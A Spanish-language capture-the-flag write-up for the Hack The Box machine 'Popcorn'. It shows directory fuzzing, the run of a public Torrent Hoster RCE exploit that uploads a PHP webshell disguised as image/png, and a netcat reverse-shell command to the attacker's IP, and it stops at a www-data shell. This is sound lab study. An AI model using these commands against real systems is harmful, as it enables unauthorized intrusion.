

repository: scarlgyx/scarlgyx-cybersecurity · page: writeups/hackthebox/popcorn/index.html · generator: mkdocs

# Popcorn

![](../../assets/img/Pasted_image_20260824083315.png)

- VHost popcorn.htb
- Whatweb
http://popcorn.htb/ [200 OK] Apache[2.2.12], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.2.12 (Ubuntu)], IP[10.129.49.96]
- Nmap

![](../../assets/img/Pasted_image_20260824085030.png)

- 80

![](../../assets/img/Pasted_image_20260824085205.png)

- Escaneamos subdominios -> no parece haber nada
- Fuzzeamos
```bash
gobuster dir -u http://popcorn.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -x php,html,js,txt
```

![](../../assets/img/Pasted_image_20260824091423.png)

- /test -> phpinfo
Vemos info sobre rutas a directorios de php

![](../../assets/img/Pasted_image_20260824091614.png)

- /rename

![](../../assets/img/Pasted_image_20260824091809.png)

Vemos lo que parece un error en los parámetros de la url al llamar a la api

![](../../assets/img/Pasted_image_20260824092030.png)

Tenemos posibilidad de renombrar archivos mediante la API sobre algún archivo que conozcamos y sobre el que tengamos permiso

- /torrent

![](../../assets/img/Pasted_image_20260824093059.png)

![](../../assets/img/Pasted_image_20260824110839.png)

Actúa como servidor intermedio en el peer2peer de descarga de torrent

- Buscaremos exploit sobre este **torrent hoster** levantado en la máquina
https://github.com/Anon-Exploiter/exploits/tree/master
Descargamos el exploit y ejecutamos
```bash
python2 torrent_hoster_unauthenticated_rce.py --url=http://popcorn.htb/torrent
```

Lo que hace el exploit es subir una webshell en php al apartado de *screenshots*

![](../../assets/img/Pasted_image_20260824111042.png)

Conseguimos el RCE

- Lo que hace el exploit es cambiar el formato de la cabecera *Content-Type* para subir el contenido del php haciendose pasar por un *image/png*

![](../../assets/img/Pasted_image_20260824232634.png)

A continuación llama a la webshell desde el directorio en el que se sube la imagen del archivo, que en la respuesta de la petición a la pag aparece en el html
- Nos enviamos una shell con nc
```bash
which nc
```

-> /bin/nc
```bash
/bin/nc -e /bin/bash 10.10.16.179 443
```

www-data
